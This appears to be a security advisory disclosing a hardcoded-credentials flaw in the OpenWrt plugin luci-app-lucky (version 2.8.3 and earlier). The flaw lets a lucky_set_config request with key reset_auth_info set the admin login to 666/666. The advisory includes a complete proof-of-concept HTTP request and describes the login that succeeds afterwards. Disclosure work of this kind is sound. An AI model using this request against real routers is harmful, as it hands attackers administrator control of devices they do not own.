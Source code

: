 ## Lucky OpenWrt plugin "luci-app-lucky" has a hardcoded credentials vulnerability

Affected product:  *luci-app-lucky* <= 2.8.3

### Product Information

project: https://github.com/gdy666/luci-app-lucky

Location of the vulnerability: https://github.com/gdy666/luci-app-lucky/blob/main/luci-app-lucky/luasrc/controller/lucky.lua

### Vulnerability Description


When handling the `lucky_set_config` request, if the `key` is `reset_auth_info`, the function resets the dministrator account and password to the fixed value `666`. This leads to a hardcoded credentials vulnerability, allowing attackers to log into the administrator system using the default account and password.

![4](img/4.png)

Before the attack, set the account to `admin` and the password to `hrgdsf`. Attempt to log in to the backend management system using the account `666` and password `666`,, which results in a login failure. 

![12](img/12.png)

![image-20240619150213925](img/5.png)

Then, create the following payload and execute the attack. 

```http
GET /cgi-bin/luci/admin/services/lucky_set_config/?key=reset_auth_info HTTP/1.1
Host: 192.168.187.101
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="125", "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: sysauth_https=da6ccf9ce82e77c3bbd5c12f6ce19ea0


```

Successfully change the account to `666` and the password to `666`. 

![11](img/11.png)



 Verify the result, and the login is successful.

![6](img/6.png)



![7](img/7.png)